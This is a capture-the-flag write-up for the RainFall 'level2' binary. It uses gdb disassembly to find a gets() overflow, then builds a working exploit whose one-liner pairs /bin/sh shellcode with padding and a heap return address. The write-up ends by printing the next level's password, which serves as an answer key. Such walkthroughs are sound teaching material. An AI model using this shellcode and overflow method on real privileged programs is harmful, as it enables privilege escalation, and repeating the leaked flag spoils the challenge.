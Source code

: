 # level0

## Hint

When we log into the machine as `level2`, we notice a binary that segfaults when we run it without a parameter:

```shell-session
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
level2@RainFall:~$ ./level2
coucou
coucou
```

We notice that the `guid` bit is set, so the executable gets the rights of its group owners granted when it is executed, and conveniently enough the group in question is our target for the current level.

That being said, it seems we need to look into the binary in order to try to understand what input it's awaiting.

## gdb

### getting to know the binary

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   ebp
   0x08048540 <+1>:	mov    ebp,esp
   0x08048542 <+3>:	and    esp,0xfffffff0
   0x08048545 <+6>:	call   0x80484d4 <p>            <----- Call to function p
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
gdb-peda$ disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   ebp
   0x080484d5 <+1>:	mov    ebp,esp
   0x080484d7 <+3>:	sub    esp,0x68
   0x080484da <+6>:	mov    eax,ds:0x8049860
   0x080484df <+11>:	mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>  <----- Call to fflush
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>    <----- Call to gets
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000          <----- Logical binary operation
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>        <----- Conditional jump to p+83
   0x08048507 <+51>:	mov    eax,0x8048620
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>  <----- Call to printf
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>   <----- Call to exit
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>    <----- Call to puts
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>  <----- Call to strdup
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```

There seems to be a lot going on here.

Indeed there could be several ways for us to make this executable open a shell for us:
1. use a `ret2libc` exploit by injecting a shell code that would call a `/bin/sh` from within the available symbols in the binary.
2. use a `ROP` (return oriented programming) exploit, in order to carefully sequence a series of `RET` operation with addresses, that will allow the cherry picking of instructions to execute.
3. Inject a shellcode on the heap, and execute it thanks to a RIP register overwrite

We will try the third one.

### return to libc

We know this is possible because there is a function call (strdup) that will allocate on the HEAP a chunk of data that we may very well have tailored to call the wanted functions from the libc.

To do that we first need to determine the size of the buffer.

Using our favourite [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), we can determine that size.

![](Ressources/pattern_generator_demonstration.png)

We then use the address returned by gdb in order to determine the size of the buffer

![](Ressources/pattern_generator_demonstration_size.png)

The tool tells us that the buffer indeed had a size of 80.

Now that we have the size of the buffer, as for the previous exercise, we must find the address to overwrite the Return Instruction Pointer register with.

This will allow us to send the execution to where we will have allocated our malicious shellcode

Obviously, that address will be the one at the start of the HEAP, since that's where our shellcode will be allocated by the call to `strdup`.

So how do we find the start address of the that chunk of HEAP memory ?
Easily enough: `info proc mappings`, though obviously enough, we need to set a breakpoint AFTER the call to the HEAP-allocating function `strdup`.

```gdb
gdb-peda$ b *p+105
Breakpoint 1 at 0x804853d
[...]
[-------------------------------------code-------------------------------------]
   0x8048532 <p+94>:	lea    eax,[ebp-0x4c]
   0x8048535 <p+97>:	mov    DWORD PTR [esp],eax
   0x8048538 <p+100>:	call   0x80483e0 <strdup@plt>
=> 0x804853d <p+105>:	leave
   0x804853e <p+106>:	ret
   0x804853f <main>:	push   ebp
   0x8048540 <main+1>:	mov    ebp,esp
   0x8048542 <main+3>:	and    esp,0xfffffff0
[...]
gdb-peda$ info proc mappings
process 7541
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
	 0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
	 0x804a000  0x806b000    0x21000        0x0 [heap]     <---- START ADDRESS OF HEAP
	0xb7e2b000 0xb7e2c000     0x1000        0x0
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0
	0xb7fd9000 0xb7fdd000     0x4000        0x0
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
gdb-peda$
```

Okay now, last part before we can say we have officially hacked that binary: the shellcode.

Our shellcode must be one to call a `/bin/sh` binary to open a shell for us.
There are plenty available on [shellstorm](http://shell-storm.org/), so it doesn't really matter which one we take as long as it's at least smaller that 80 bytes. (because we need room for the HEAP address we have found before) 

Our shellcode is found [here](http://shell-storm.org/shellcode/files/shellcode-811.php) and it is 28 bytes long. That means that for the overflow to happen we must concatenate a 52 byte padding to the shell code, and then the address we mentionned before.

```shell-session
level2@RainFall:~$
(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'thisisjustbutapaddingtoguaranteethatwehaveanoverflow' + '\x08\xa0\x04\x08'"; cat -)>
1Ph//shh/bin�°
              ̀1@̀thisisjustbutapaddingtoguaranteethveanoverflow
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```


